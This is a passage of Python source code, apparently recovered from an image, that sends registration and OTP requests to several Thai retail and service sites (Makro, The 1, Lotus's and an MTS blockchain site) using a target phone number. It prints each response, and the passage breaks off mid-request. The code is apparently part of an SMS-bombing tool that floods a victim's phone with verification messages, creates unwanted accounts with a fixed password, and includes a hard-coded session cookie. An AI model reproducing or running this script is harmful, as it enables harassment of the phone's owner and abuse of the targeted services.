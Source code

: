         try:

            # Makro

            auth04 = requests.post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username": phone,"password": "1111a1111A","name": phone,"provinceCode": "74","districtCode": "970","subdistrictCode": "8654","zipcode": "94140","siebelCustomerTypeId": "710","locale": "th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})

            print(auth04.status_code)

            print(auth04.json())

        except:

            print("Fail :(")

        try:

            # The 1 ( รัวได้ )

            auth05 = requests.get("https://www.baanandbeyond.com/registration_initiate?on%5Bcountry%5D=66&on%5Bvalue%5D="+ phone + "&type=mobile")

            print(auth05.status_code)

            print(auth05.json())

        except:

            print("Fail :(")

        try:

            # Lotus

            auth06 = requests.post("https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp", data={"mobile_phone_no":phone})

            print(auth06.status_code)

            print(auth06.json())

        except:

            print("Fail :(")

        try:

            # MGBCONFIRM

            auth07 = requests.post("https://www.mtsblockchain.com/mgb-api/user/register/reqotp",json={"mobile": phone},headers={"Content-Type":"application/json","Cookie":"_ga=GA1.2.1476569446.1657959172; _gid=GA1.2.587325211.1657959172; _gat_gtag_UA_230676474_1=1; connect.sid=s%3Avu1rVQbmGkMrSzQS7GYQ-y4VHMxHdmH7.zuhlp%2BBtukL2ksityudE9OTqdUH5G3dk3XHm3zNEHIs; cookie_policy_accepted=1","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"})
